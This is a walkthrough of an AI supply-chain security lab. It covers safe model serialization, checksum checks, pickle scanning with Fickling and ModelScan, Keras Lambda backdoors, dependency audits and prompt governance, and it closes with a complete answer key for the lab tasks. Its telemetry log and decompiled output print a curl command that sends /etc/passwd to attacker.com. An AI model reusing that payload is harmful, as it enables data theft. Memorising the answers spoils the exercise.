

## Overview

Following the compromise of TryTrainMe investigated in [Supply Chain Attack Vectors](https://mhdomer.github.io/posts/Supply-Chain-Attack-Vectors/), we transition into the role of Security Engineer tasked with architecting **SupplySecLab**. SupplySecLab is a comprehensive supply chain security testing lab designed to validate, scan, audit, and govern external AI artifacts before they can ever reach a staging or production pipeline.

Securing the AI supply chain requires defense in depth across three distinct planes:
1. **Model Serialization Plane:** Eliminating load-time arbitrary code execution via SafeTensors and PyTorch `weights_only=True`.
2. **Model Architecture Plane:** Static disassembly with Fickling, multi-format scanning with ModelScan, and layer-by-layer HDF5 inspection to catch inference-time triggers (such as Keras Lambda layers).
3. **Software & Service Plane:** Cryptographic dependency locking, `pip-audit` vulnerability scanning, CycloneDX Software Bill of Materials (SBOM) generation via Syft, and behavioral baselining for black-box API providers.



---

## 1. Safe Serialization Formats

The root vulnerability behind serialization attacks is Python's native `pickle` library. When unpickling, Python allows arbitrary bytecode execution via dunder methods like `__reduce__`. To eliminate this attack vector, defense must begin at the file format level.

### SafeTensors (Hugging Face)

SafeTensors is a serialization format explicitly engineered for machine learning tensors. It replaces arbitrary executable bytecode with a strict structure:
- **Header:** A simple JSON dictionary containing metadata and tensor shapes/data types.
- **Payload:** Raw binary byte buffers representing numerical tensors (weights and biases).

Because SafeTensors does not serialize Python objects or executable opcodes, it is mathematically incapable of executing code during deserialization. In addition, SafeTensors supports zero-copy memory mapping (`mmap`), drastically improving model loading times.

Converting legacy pickle weights into SafeTensors requires safe deserialization first:

```python
import torch
from safetensors.torch import save_file, load_file

# Step 1: Safely load pickle weights restricting unpickler to pure numerical tensors
model_weights = torch.load("model.pkl", weights_only=True)

# Step 2: Export clean weights to SafeTensors format
save_file(model_weights, "model.safetensors")

# Step 3: Load SafeTensors weights (zero risk of code execution)
safe_weights = load_file("model.safetensors")
```

### PyTorch `weights_only=True`

When legacy workflows necessitate loading `.pt` or `.pkl` checkpoints, PyTorch provides the `weights_only=True` parameter (enabled by default starting in PyTorch 2.6).

```python
# VULNERABLE: Allows arbitrary code execution via pickle __reduce__
model = torch.load("model.pt")

# HARDENED: Restricts the unpickler to reconstructing tensor objects only
model = torch.load("model.pt", weights_only=True)
```

Setting `weights_only=True` constrains Python's `Unpickler.find_class` to a strict allowlist of tensor primitives (`torch.Tensor`, `torch.storage`, etc.). If an attacker attempts to resolve `os.system` or `subprocess.Popen`, PyTorch aborts the deserialization with an exception before any external binary can execute.

### Format Limitations

While SafeTensors eliminates load-time serialization RCE, it does not solve:
- **File Extension Masquerading:** Attackers can rename a malicious `.pkl` file to `.safetensors` (e.g., CVE-2023-6730). Applications must inspect internal magic bytes and JSON headers rather than trusting file extensions.
- **Inference-Time Architecture Exploits:** Custom layers (such as Keras Lambda layers) execute when input data passes through the network, completely independent of the weights format.

---

## 2. Model Verification and Provenance

Safe formats prove that a file cannot execute code at load time; they do not prove that the weights have not been altered or swapped in transit.

### The Model Acquisition Framework

Every external model, LoRA adapter, or merged checkpoint must pass through a mandatory 5-stage intake gate:

| Step | Action | Objective |
| :--- | :--- | :--- |
| **1. Quarantine** | Download files to an isolated, air-gapped staging bucket | Prevent untested artifacts from touching internal compute |
| **2. Source Verification** | Verify publisher identity, signing keys, and model cards | Establish vendor credibility and check intended use |
| **3. Integrity Check** | Calculate SHA-256 hash and compare against official checksums | Verify artifact was not modified or swapped in transit |
| **4. Security Scan** | Run static analyzers (Fickling, ModelScan) and dependency audits | Detect hidden payloads and outdated libraries |
| **5. Approve or Reject** | Tag artifact in the internal Model Registry as approved | Enforce a cryptographic barrier to production |

### SHA-256 Checksum Audit

During our lab assessment, we inspected three models against `/opt/supply-chain/models/checksums.json`:

```bash
analyst@tryhackme-2204:~$ sha256sum /opt/supply-chain/models/product_recommender.safetensors \
  /opt/supply-chain/models/model_review_v2.pkl \
  /opt/supply-chain/models/product_recommender.pkl
```

Comparing the output against `checksums.json`:
- `product_recommender.safetensors`: Matches publisher hash.
- `product_recommender.pkl`: Matches publisher hash.
- `model_review_v2.pkl`: **Mismatch detected**. The file was tampered with after the original hash was published.

---

## 3. Model Loading Telemetry

To observe what happens when a compromised model bypasses perimeter checks, we analyzed execution telemetry captured inside a sandboxed loader utilizing Python 3.8+ audit hooks (`sys.addaudithook`):

```text
SESSION START [model_load]
MODEL LOAD BEGIN: /models/sentiment_model.pkl (pickle)
FILE ACCESS: /models/sentiment_model.pkl (rb) [normal]
IMPORT [DANGEROUS]: module 'os' resolved
SYSTEM CALL [CRITICAL]: system('curl http://attacker.com/exfil -d @/etc/passwd')
MODEL LOAD COMPLETE: object_type: int
SESSION STOP [model_load]
```

In a legitimate model load, the event stream terminates with `object_type: SentimentModel`. In this compromised model:
1. The deserializer invoked `os.system` via `__reduce__`.
2. It issued an outbound `curl` exfiltration command targeting `/etc/passwd`.
3. It returned an `int` (the integer return code of `os.system`) instead of a valid PyTorch or Scikit-learn model object.

---

## 4. Static Scanning: Fickling and ModelScan

Pre-execution scanning inspects the file on disk, catching payloads before `pickle.load()` is ever called.

### Fickling (Trail of Bits)

Fickling safely decompiles pickle bytecode into human-readable Python Abstract Syntax Trees (AST) without executing the code.

```bash
analyst@tryhackme-2204:~$ fickling /opt/supply-chain/models/model_review_v2.pkl
```

Decompiled output:
```python
from os import system
_var0 = system('curl http://attacker.com/exfil -d @/etc/passwd')
result0 = _var0
```

Running Fickling's automated safety check:
```bash
analyst@tryhackme-2204:~$ fickling --check-safety -p /opt/supply-chain/models/model_review_v2.pkl
```
Result: Fickling flags the artifact as **overtly malicious** due to unauthorized `os.system` invocation.

### ModelScan (Protect AI)

ModelScan supports multi-format inspection across PyTorch, TensorFlow, Keras, and ONNX models.

```bash
analyst@tryhackme-2204:~$ modelscan -p /opt/supply-chain/models/model_review_v2.pkl
```

Output:
```text
--- Summary ---
Total Issues: 1
Total Issues By Severity:
    - LOW: 0
    - MEDIUM: 0
    - HIGH: 0
    - CRITICAL: 1

--- CRITICAL ---
Unsafe operator found:
  - Severity: CRITICAL
  - Description: Use of unsafe operator 'system' from module 'os'
  - Source: /opt/supply-chain/models/model_review_v2.pkl
```

When evaluated against `product_recommender.safetensors`, ModelScan reports zero issues.

---

## 5. Architecture-Level Threats & Keras Lambda Layers

Attackers who cannot compromise serialization can embed malicious code inside the model architecture itself. In Keras, `Lambda` layers permit arbitrary Python functions to be embedded directly into the neural network computational graph.

A malicious Lambda layer does not execute during `model = load_model()`; it executes **at inference time** whenever `model.predict()` processes user input. Furthermore, Lambda layer backdoors persist across format conversions, functioning identically whether saved as `.h5`, `.keras`, or SafeTensors.

### Architecture Inspection via ModelScan

Scanning `image_classifier_v2.h5` with ModelScan triggers its `H5LambdaDetectScan` rule:

```text
--- Summary ---
Total Issues: 1
Total Issues By Severity:
    - MEDIUM: 1

--- MEDIUM ---
Unsafe operator found:
  - Severity: MEDIUM
  - Description: Use of unsafe operator 'Lambda' from module 'Keras'
  - Source: /opt/supply-chain/models/image_classifier_v2.h5
```

Because Lambda layers have valid machine learning applications (e.g., custom normalization), ModelScan flags them as `MEDIUM` severity, requiring manual architecture inspection.

### Static HDF5 Inspection with `h5py`

To inspect the model's internal layer configuration without instantiating Keras, we execute `/opt/supply-chain/tools/inspect_h5_model.py`:

```bash
analyst@tryhackme-2204:~$ python3 /opt/supply-chain/tools/inspect_h5_model.py /opt/supply-chain/models/image_classifier_v2.h5
```

Comparison between clean and tampered architectures:
- **`image_classifier.h5` (4 layers):**
  - `input_layer` [OK]
  - `flatten` [OK]
  - `dense` [OK]
  - `dense_1` [OK]
- **`image_classifier_v2.h5` (5 layers):**
  - `input_layer` [OK]
  - `flatten` [OK]
  - `dense` [OK]
  - `manipulate_output` [WARNING: Lambda Layer Detected]
  - `dense_1` [OK]

The suspicious layer is named `manipulate_output`. It intercepts intermediate logits during inference to alter classification results or execute external functions.

---

## 6. Dependency Auditing & Software Bill of Materials (SBOM)

An AI application is only as secure as its underlying software supply chain. Attackers routinely target transitive dependencies and package indexes.

### Version Pinning and Lockfiles

In `requirements.txt`:
- **Unpinned (`numpy`):** Highly vulnerable to malicious minor updates.
- **Range-pinned (`numpy>=1.24,<1.25`):** Better, but vulnerable to compromised patch releases.
- **Exact Version Pinning (`numpy==1.24.3`):** Industry best practice for production deployments.

Lockfiles (`pip-compile --generate-hashes` or `poetry.lock`) bind each dependency to its exact cryptographic SHA-256 hash, preventing package tampering on public mirrors.

### Vulnerability Auditing with `pip-audit`

`pip-audit` cross-references installed packages against the PyPA Advisory Database and OSV:

```bash
analyst@tryhackme-2204:~$ pip-audit -r /opt/supply-chain/project/requirements.txt
```

This identifies outdated dependencies with known CVEs, specifying the exact minimum patched version required to remediate each flaw.

### Generating CycloneDX SBOMs with Syft

A Software Bill of Materials (SBOM) provides an exhaustive machine-readable inventory of all direct and transitive dependencies, licensing terms, and cryptographic hashes.

We utilize Anchore's **Syft** to generate an OWASP **CycloneDX** JSON manifest for the ML project:

```bash
analyst@tryhackme-2204:~$ syft /opt/supply-chain/project/ --exclude './venv/**' -o cyclonedx-json > /tmp/sbom.json
```

To view the generated inventory table:
```bash
analyst@tryhackme-2204:~$ syft /opt/supply-chain/project/ --exclude './venv/**' -o table
```

CycloneDX focuses specifically on application security and vulnerability tracking, whereas SPDX (Linux Foundation / ISO 5962) specializes in open-source licensing compliance.

---

## 7. API Provider Assessment & Prompt Governance

When consuming AI models via third-party APIs (e.g., OpenAI, Anthropic, or OpenRouter), security teams have no access to raw weights or server code. Defensive measures must shift to behavioral verification and prompt governance.

### API Defensive Checklist

1. **Provider Due Diligence:** Assess data retention policies, model deprecation commitments, SOC 2 Type II reports, and training opt-outs.
2. **Behavioral Monitoring:** Establish a **behavioral baseline** by sending a fixed battery of reference prompts on a recurring schedule. Tracking response entropy, refusal rates, and factual accuracy detects silent model swaps by upstream providers.
3. **System Prompt Governance:** System prompt templates are code artifacts. Sourcing unvetted prompt templates from community repositories introduces prompt injections and security regressions. All prompts must be stored in Git, undergo peer code review, and be tested against behavioral benchmarks before deployment.
4. **Sandboxed Evaluation:** Test black-box models across 4 phases: sandbox load, fixed prompt battery, adversarial safety probing, and baseline comparison.

### Comparative Audit: Governed vs. Ungoverned Prompts

We evaluated TryTrainMe's customer support agent running two configurations:

| Metric / Probe | Config A (Governed Internal Prompt) | Config B (Ungoverned Community Template) |
| :--- | :--- | :--- |
| **Return Policy Query** | "30-day window, replacement only, contact support@trytrainme.com" | Incorrect return timeframe, cites `TryTrainML` as provider |
| **Admin Access Query** | Refuses to disclose, links to official privacy policy | Leaks internal role descriptions and access policies |
| **Supply Chain Artifact** | Validated in Git repository with automated tests | Unreviewed template downloaded from public repository |

Config B demonstrates that altering the system prompt introduces critical supply chain vulnerabilities without touching the underlying foundation model or API endpoint.

---

## Complete Lab Solutions

### Task 1: Introduction
- **Question:** I'm ready to build my defences.
- **Answer:** `No answer needed` (Click Completed)

### Task 2: Safe Serialisation Formats
- **Question 1:** What serialisation format was created by Hugging Face to replace pickle for ML models?
- **Answer:** `SafeTensors`
- **Question 2:** What PyTorch parameter prevents code execution when loading pickle-based models?
- **Answer:** `weights_only=True`

### Task 3: Model Verification and Provenance
- **Question 1:** What is the first step in the Model Acquisition Framework when a new model is received?
- **Answer:** `Quarantine`
- **Question 2:** Examine the checksums on the VM. Which model file does not match its expected hash?
- **Answer:** `model_review_v2.pkl`

### Task 4: Model Loading Telemetry
- **Question:** What object type does the compromised model's telemetry show on load completion, instead of a model?
- **Answer:** `int`

### Task 5: Scanning Models Before Use
- **Question 1:** Which Trail of Bits tool performs static analysis of pickle files?
- **Answer:** `Fickling`
- **Question 2:** What severity level does ModelScan assign to an `os.system` call in a model file?
- **Answer:** `CRITICAL`

### Task 6: Architecture-Level Threats
- **Question:** Open the Telemetry terminal. How many layers does the compromised model's architecture contain?
- **Answer:** `5`

### Task 7: Architecture Inspection
- **Question:** Run inspect_h5_model.py on image_classifier_v2.h5. What is the name of the suspicious Lambda layer?
- **Answer:** `manipulate_output`

### Task 8: Dependency Auditing and SBOMs
- **Question 1:** What is the recommended practice for specifying package versions in requirements.txt?
- **Answer:** `Version Pinning`
- **Question 2:** What tool scans Python dependencies against known vulnerability databases?
- **Answer:** `pip-audit`
- **Question 3:** Which SBOM format is maintained by OWASP and focuses on security?
- **Answer:** `CycloneDX`

### Task 9: API Provider Assessment
- **Question 1:** What should you establish to detect when an API provider silently updates their model?
- **Answer:** `behavioural baseline`
- **Question 2:** What type of artefact should be version-controlled and reviewed like code, to prevent untrusted content from altering LLM behaviour?
- **Answer:** `system prompt`
- **Question 3:** What company name does Config B identify as the service provider?
- **Answer:** `TryTrainML`

### Task 10: Conclusion
- **Question:** I've built SupplySecLab and its battle-ready!
- **Answer:** `No answer needed` (Click Completed)

---

## Defensive Engineering Summary

| Threat Vector | Mitigation Strategy | Tooling |
| :--- | :--- | :--- |
| **Pickle Deserialization RCE** | Convert weights to SafeTensors; enforce `weights_only=True` | `safetensors`, `torch.load` |
| **Model Tampering / Swapping** | SHA-256 integrity verification; 5-step Model Acquisition Framework | `sha256sum`, Model Registries |
| **Pre-Execution Payloads** | Static bytecode disassembly and AST operator scanning | `fickling`, `modelscan` |
| **Inference-Time Layer Backdoors** | HDF5 structure inspection for unvetted Lambda layers | `h5py`, `inspect_h5_model.py` |
| **Vulnerable Dependencies** | CVE scanning across Python package manifests | `pip-audit` |
| **Component Visibility Gaps** | Machine-readable software asset inventories | `syft`, `CycloneDX` |
| **Silent API Model Drifts** | Automated prompt battery tracking and behavioral baselines | Behavioral test suites |
| **Prompt Template Injection** | Git version control, peer review, and sandboxed prompt testing | CI/CD prompt test pipelines |

---

## You can find me online at:


- **GitHub:** [Mhdomer](https://github.com/Mhdomer)
- **LinkedIn:** [mhd3omar](https://www.linkedin.com/in/mhd3omar/)
- **Tryhackme:** [nonlouy](https://tryhackme.com/p/nonlouy)
